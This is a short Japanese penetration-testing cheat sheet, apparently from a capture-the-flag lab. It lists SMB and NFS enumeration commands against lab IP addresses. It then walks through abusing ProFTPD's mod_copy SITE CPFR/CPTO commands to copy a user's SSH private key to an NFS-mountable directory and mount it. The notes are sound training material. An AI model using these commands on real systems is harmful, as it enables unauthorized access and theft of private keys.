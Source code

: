 ### ファイルの列挙
```smbmap -R Replication -H 10.10.10.100```

## nmap script
### ファイル共有の一覧を列挙
```smb-enum-shares.nse```

### リモートの Windows システム上のユーザーを列挙
```smb-enum-users.nse```

```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.162.244```

## smbclient
### サーバー上の SMB/CIFS リソースにアクセスする
```smbclient //10.10.162.244/anonymous```

## smbget
### SMB 経由でファイルをダウンロード
```smbget -R smb://10.10.162.244/anonymous```

### ポート111が開いている場合はマウント可能なディレクトリがないか調べることができる
```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.208.182```

mod_copy モジュールは SITE CPFR と SITE CPTO コマンドを実装しており、
サーバー上のある場所から別の場所にファイルやディレクトリをコピーするために使用できます。認証されていないクライアントは、
これらのコマンドを利用して、ファイルシステムの任意の部分から選択した宛先にファイルをコピーすることができます。

この仕様を悪用してsshの秘密鍵をマウント可能な領域に移動する。
例:
```nc $IP 21```

### コピー元のファイルを指定する
```SITE CPFR /home/kenobi/.ssh/id_rsa```

### コピー先を指定する
```SITE CPTO /var/tmp/id_rsa```

### コピーしたら自分のマシンにマウントする
```mkdir /mnt/kenobiNFS```
```mount $IP:/var /mnt/kenobiNFS```
